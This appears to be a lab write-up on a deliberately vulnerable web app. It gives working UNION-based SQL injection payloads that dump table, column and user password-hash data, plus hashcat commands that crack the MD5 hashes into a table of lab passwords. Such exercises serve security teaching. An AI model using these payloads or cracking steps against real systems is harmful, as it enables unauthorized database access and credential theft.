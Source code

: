 # 2. SQL Injection

## 2.1. Basic Injection

When we change the ID parameter of the URL, it does the same thing as when we use the input field, the submission is done and we have the result

## 2.2. Always true scenario

When we put the following command in the field : 

```
%' or 0=0 union select null, version() #
```

The query is executed and the following result is obtained:

<img title="version of the database" alt="version of the database" src="/src/2.2_new.png">

We conclude that the database version is 10.1.26 of MariaDB

## 2.3 Exercises

### 2.3.1. Print the database user

To be able to select the important information of the users, we follow the following steps: 

- Look at the names of the tables to identify the users

To see the tables, we used the following command

```
%' or 0=0 union select table_name, null from information_schema.tables #"
```

the following result is obtained:

<img title="tables of the database" alt="ables of the database" src="/src/2.3.1_0.png">

So the name of the users table is users.
There are other tables of course but we just stopped the capture at this level for readability reasons 

- Identify important columns

We used the following command to find the columns of the users table.

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' 
```

Here is the result

<img title="Columns of the users table" alt="Columns of the users table" src="/src/2.3.1_1.png">

We see on this picture all the columns (highlighted in yellow) of the table.

- Select user data on the fields we are interested in 

We have chosen to retrieve the following fields: user_id, user, first_name, last_name, last_login, password.

Here is the query used 

```
%' or 0=0 union select 'user_id|user|first_name|last_name|last_login|password', concat(user_id,'|',user, '|', first_name, '|', last_name, '|', last_login, '|', password) from users #
```

And here is the result

<img title="Retrieve of columns" alt="Retrieve of columns" src="/src/2.3.1_2.png">

The value of the First Name field displayed is just to help us find the value of the Surname field

### 2.3.2. Print the database name

To find the name of the database, we used this query: 

```
%' or 0=0 union select null, database() #
```

This gives as an answer: 

<img title="Database name" alt="Database name" src="/src/2.3.2.png">

### 2.2.3. Print the name of all of the tables in the database

The query to do this is as follows: 

```
%' or 0=0 union select table_name, null from information_schema.tables #
```

We also used it in answer 1.

Below is the result

<img title="All tables name" alt="All tables name" src="/src/2.3.3.png">

### 2.2.4. Print the names of all of the columns in the users table

We have already done so in answer 2.2.2 and here is the query we used

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' # 
```

### 2.2.5. Now that we have the column names, print out the usernames and hashed passwords for each user !

We used this query to get the usernames and passwords of the users 

```
%' or 0=0 union select 'user|password', concat(user, '|', password) from users #
```

Result:

<img title="Usernames and passwords of the users" alt="Usernames and passwords of the users" src="/src/2.3.5.png">

the logic of the output is the same as the answer 2.2.2

# 3. Cracking hashed passwords with hashcat

To crack the passwords, we followed the following steps

### 3.1. Create a file with hashed passwords

We used the following echo command to create the file 

```
echo -e "5f4dcc3b5aa765d61d8327deb882cf99\ne99a18c428cb38d5f260853678922e03\n8d3533d75ae2c3966d7e0d4fcc69216b\n0d107d09f5bbe40cade3de5c71e9e9b7\n5f4dcc3b5aa765d61d8327deb882cf99" >> target_hashes.txt
```

Here is what it looks like when displayed

<img title="Display hashed file" alt="Display hashed file" src="/src/3.2.png">

### 3.2. Decompression of the rockyou word list

The decompression was performed with the following command

```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

The result

<img title="Display wordlist" alt="Display wordlist" src="/src/3.0.png">

### 3.3. Password cracking with MD5

Here is the command used

```
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
```

Here is what you get after cracking

<img title="Display cracked file" alt="Display cracked file" src="/src/3.4.png">

We notice that we had 5 hashes and we have 4 results, this is explained by the fact that there are two identical hashes, so the same password.

### 3.4. Real password

Here is the final result with the users and their passwords in clear

| Id | Username | First Name | Last Name | Real Password | Hased password
|---|---|---|---|---|---|
| 1 | admin | admin | admin | password | 5f4dcc3b5aa765d61d8327deb882cf99
| 2 | gordonb | Gordon | Brown | abc123 | e99a18c428cb38d5f260853678922e03
| 3 | 1337 | Hack | Me | charley | 8d3533d75ae2c3966d7e0d4fcc69216b
| 4 | pablo | Pablo | Picasso | letmein | 0d107d09f5bbe40cade3de5c71e9e9b7
| 5 | smithy | Bob | Smith | password | 5f4dcc3b5aa765d61d8327deb882cf99

